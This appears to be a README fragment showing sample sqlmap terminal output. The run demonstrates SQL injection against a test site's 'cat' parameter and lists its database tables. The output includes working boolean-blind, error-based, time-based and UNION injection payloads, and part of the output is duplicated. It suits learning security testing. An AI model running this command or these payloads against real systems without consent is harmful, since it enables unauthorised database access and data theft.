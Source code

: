 ### sample terminal output.

> All commands for testing and reporting.

```bash
grey@mi-14:~$ sqlmap  -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart --tables
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:10:18 /2023-10-05/

[21:10:18] [INFO] resuming back-end DBMS 'mysql'
[21:10:18] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=2 AND 9513=9513

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: cat=2 AND GTID_SUBSET(CONCAT(0x716b626271,(SELECT (ELT(2747=2747,1))),0x716b766a71),2747)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cat=2 AND (SELECT 3137 FROM (SELECT(SLEEP(5)))UitH)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=2 UNION ALL SELECT NULL,CONCAT(0x716b626271,0x615a454b67737246465044684351626d58745a6d4e4e61716e65426b7549716c46426f4e4c73574e,0x716b766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[21:10:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.19.0, PHP 5.6.40
back-end DBMS: MySQL >= 5.6
[21:10:19] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+

## Information fetched  to  '/home/grey/.local/share/sqlmap/output/testphp.vulnweb.com'
```bash
back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.19.0, PHP 5.6.40
back-end DBMS: MySQL >= 5.6
[21:10:19] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+
```
